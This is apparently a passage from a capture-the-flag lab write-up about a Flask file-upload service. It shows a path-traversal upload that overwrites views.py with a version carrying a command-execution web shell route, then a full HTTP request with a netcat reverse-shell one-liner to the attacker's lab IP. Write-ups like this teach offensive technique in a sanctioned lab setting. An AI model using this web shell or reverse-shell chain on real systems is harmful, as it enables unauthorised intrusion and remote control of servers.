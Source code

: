 The theory is that we can create our own code in `views.py`, upload it to replace the original file and thus granting code execution.

Create my own custom `views.py`:
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/e')
def exec_cmd():
    return os.system(request.args.get('cmd'))
```

Upload the file and capture the POST request, forward it to repeater and change `filename` parameter to `/app/app/views.py` to write over the original file.
```http
Content-Disposition: form-data; name="file"; filename="/app/app/views.py"
```

We should now be able to execute os-commands. Testing several different reverse shells I finally find one that works.
```http
GET /e?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.15.17+4488+%3E/tmp/f HTTP/1.1
Host: 10.129.69.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
